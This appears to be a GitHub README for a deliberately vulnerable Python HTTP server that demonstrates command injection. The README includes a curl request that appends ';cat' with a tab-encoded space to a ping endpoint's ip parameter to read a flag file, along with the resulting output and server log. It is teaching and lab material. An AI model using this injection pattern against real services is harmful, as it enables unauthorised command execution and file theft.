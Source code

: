 # rce-endpoint
Simple python http server to demonstrate RCE vulnerabilities.

### Run
```
lomaha@rce-endpoint % python3 main.py -a=127.0.0.1 -p=80
```
### Use
#### Client side:
```
lomaha@rce-endpoint % curl -G "http://127.0.0.1/ping?ip=8.8.8.8;cat%09flag.txt"  
b'PING 8.8.8.8 (8.8.8.8): 56 data bytes\n64 bytes from 8.8.8.8: icmp_seq=0 ttl=114 time=7.279 ms\n64 bytes from 8.8.8.8: icmp_seq=1 ttl=114 time=6.343 ms\n64 bytes from 8.8.8.8: icmp_seq=2 ttl=111 time=7.965 ms\n\n--- 8.8.8.8 ping statistics ---\n3 packets transmitted, 3 packets received, 0.0% packet loss\nround-trip min/avg/max/stddev = 6.343/7.196/7.965/0.665 ms\nLOMAHA{cwhf85wLOMAHA4375023}'
```
#### Server side:
```
Server started http://127.0.0.1:80
127.0.0.1 - - [25/Dec/2021 19:44:32] "GET /ping?ip=8.8.8.8;cat%09flag.txt HTTP/1.1" 200 -
path: '/ping'
query_params: 'ip'
quer_value: '8.8.8.8;cat	flag.txt'
```